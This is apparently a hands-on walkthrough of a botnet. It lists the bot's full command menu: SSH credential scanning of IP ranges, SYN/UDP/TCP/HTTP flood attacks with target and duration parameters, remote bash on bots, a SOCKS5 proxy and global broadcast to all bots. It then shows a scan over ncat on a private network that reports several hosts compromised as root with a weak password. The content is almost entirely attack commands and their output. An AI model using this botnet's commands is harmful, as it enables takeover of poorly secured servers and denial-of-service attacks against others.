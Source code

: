 ```Shell
<< !rndscan 	> !rndscan 192.*.*.* <THREADS> <MINUTES>
<< !suba 	> !suba 192 <THREADS>
<< !subb 	> !subb 192.168 <THREADS>
<< !subc 	> !subc 192.168.0 <THREADS>
<< !autoscan 	> !autoscan <change range every x mins> <mins to run autoscan> <THREADS>
<< !ssyn2 	> !ssyn2 <target IP/hostname> <PORT> <THREADS> <TIME>
<< !udp 	> !udp <target IP/hostname> <PORT> <throttle (lower is faster)> <packet size> <THREADS> <SECS>
<< !webdos	> !webdos <hostname or ip> <port> <page path> <children> <loops/child>
<< !tcp 	> !tcp <target IP> <PORT> <THREADS> <pps limiter, -1 for no limit> <time>
<< !sysinfo 	> shows systeminfo - IP>RAM>CPU
<< !socks5srv   > !socks5srv <PORT>  <-- start socks5srv
<< !dc		> !dc 192.168.178.1 !sysinfo < sends command to single bot
<< !bash 	> !dc 192.168.178.1 !bash ls -lsa < sends bash command
<< !glob 	> !glob !sysinfo < sends command global to all bots
<< !logout 	> !glob !logout <PASS> < sets bot password and disabled it
<< !addadm 	> !glob !addadm <your ip> < glob admin reg
<< !list 	> !glob !list < show bot list
<< !deladm 	> !glob !deladm < delete all admins
<< !die		> !die < Clean PURGE of bot
<< INFO 	> use the !glob command to send to all
--------------------------------KNOW BUGS--------------------------------
<< NONE
root@lamer:~#
```
we can see the bot has some features lemme start with the !rndscan command

!rndscan 192.*.*.* <THREADS> <MINUTES>
example

!rndscan 192.*.*.* 10000 60
or
!rndscan 192.168.*.* 1000 30
or
!rndscan 192.168.178.* 100 15

letme scan my network 

root@lamer:~# echo '!rndscan 10.0.0.* 50 3' | ncat 10.0.0.103 1112
Sat Dec 21 02:56:56 2019

[ RANDOMSCAN STARTED ]SUBNET[ 10.0.0.* ]THREADS[ 50 ]TIME[ 3 ]Sat Dec 21 02:57:04 2019

OWNED:[ root / lol ]IP:[ 10.0.0.106 ] - SSH-2.0-OpenSSH_7.9p1 Debian-10
Sat Dec 21 02:57:04 2019

OWNED:[ root / lol ]IP:[ 10.0.0.104 ] - SSH-2.0-OpenSSH_7.9p1 Debian-10
Sat Dec 21 02:57:02 2019

OWNED:[ root / lol ]IP:[ 10.0.0.119 ] - SSH-2.0-OpenSSH_5.1p1 Debian-5
Sat Dec 21 02:57:05 2019

OWNED:[ root / lol ]IP:[ 10.0.0.102 ] - SSH-2.0-OpenSSH_7.9p1 Debian-10
Sat Dec 21 02:57:04 2019

